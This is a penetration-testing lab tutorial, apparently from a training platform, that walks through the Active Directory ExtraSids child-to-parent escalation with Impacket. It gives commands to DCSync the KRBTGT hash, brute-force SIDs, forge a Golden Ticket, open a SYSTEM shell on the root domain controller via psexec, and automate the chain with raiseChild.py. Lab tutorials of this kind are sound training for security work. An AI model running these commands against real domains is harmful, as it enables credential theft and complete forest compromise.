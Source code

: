 We need to gather the following bits of information to perform ExtreSids attack:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

Once we have complete control of the child domain, `LOGISTICS.INLANEFREIGHT.LOCAL`, we can use `secretsdump.py` to DCSync and grab the NTLM hash for the KRBTGT account.

### Performing DCSync with secretsdump.py
```shell-session
$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```

Next, we can use [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) from the Impacket toolkit to perform SID brute forcing of the child domain. in this command whatever we specify for the IP address (the IP of the DC in the child domain) will become the target domain for a SID lookup. It'll give us the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format `DOMAIN_SID-RID`.

### Performing SID Brute Forcing using lookupsid.py
```shell-session
$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 
```

We can filter out the noise by piping the command output to grep and looking for just the domain SID.

### Looking for the Domain SID
```shell-session
$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

Next, we can rerun the command, targeting the INLANEFREIGHT Domain Controller (DC01) at 172.16.5.5 and grab the domain `SID S-1-5-21-3842939050-3880317879-2865463114` and attach the RID of the Enterprise Admins group. [Here](https://adsecurity.org/?p=1001) is a handy list of well-known SIDs.

### Grabbing the Domain SID & Attaching to Enterprise Admin's RID
```shell-session
$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user `hacker` to forge our Golden Ticket.

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Next, we can use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by `-domain-sid`) and the parent domain (specified by `-extra-sid`).

### Constructing a Golden Ticket using ticketer.py
```shell-session
$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

The ticket will be saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file, which is a file used to hold Kerberos credentials. Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.

### Setting the KRB5CCNAME Environment Variable
```shell-session
$ export KRB5CCNAME=hacker.ccache 
```

We can check if we can successfully authenticate to the parent domain's Domain Controller using [Impacket's version of Psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py). If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.

### Getting a SYSTEM Shell using Impacket's psexec.py
```shell-session
$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain. listing out the child and parent domain's fully qualified domain names (FQDN). It:

- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

Finally, if the `target-exec` switch is specified, it authenticates to the parent domain's Domain Controller via Psexec.

### Performing the Attack with raiseChild.py
```shell-session
$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```

The script lists out the workflow and process in a comment as follows:
```python
#   The workflow is as follows:
#       Input:
#           1) child-domain Admin credentials (password, hashes or aesKey) in the form of 'domain/username[:password]'
#              The domain specified MUST be the domain FQDN.
#           2) Optionally a pathname to save the generated golden ticket (-w switch)
#           3) Optionally a target-user RID to get credentials (-targetRID switch)
#              Administrator by default.
#           4) Optionally a target to PSEXEC with the target-user privileges to (-target-exec switch).
#              Enterprise Admin by default.
#
#       Process:
#           1) Find out where the child domain controller is located and get its info (via [MS-NRPC])
#           2) Find out what the forest FQDN is (via [MS-NRPC])
#           3) Get the forest's Enterprise Admin SID (via [MS-LSAT])
#           4) Get the child domain's krbtgt credentials (via [MS-DRSR])
#           5) Create a Golden Ticket specifying SID from 3) inside the KERB_VALIDATION_INFO's ExtraSids array
#              and setting expiration 10 years from now
#           6) Use the generated ticket to log into the forest and get the target user info (krbtgt/admin by default)
#           7) If file was specified, save the golden ticket in ccache format
#           8) If target was specified, a PSEXEC shell is launched
#
#       Output:
#           1) Target user credentials (Forest's krbtgt/admin credentials by default)
#           2) A golden ticket saved in ccache for future fun and profit
#           3) PSExec Shell with the target-user privileges (Enterprise Admin privileges by default) at target-exec
#              parameter.
```

`We don't want to tell the client that something broke because we used an "autopwn" script!`, so it's always good to do attacks manually.

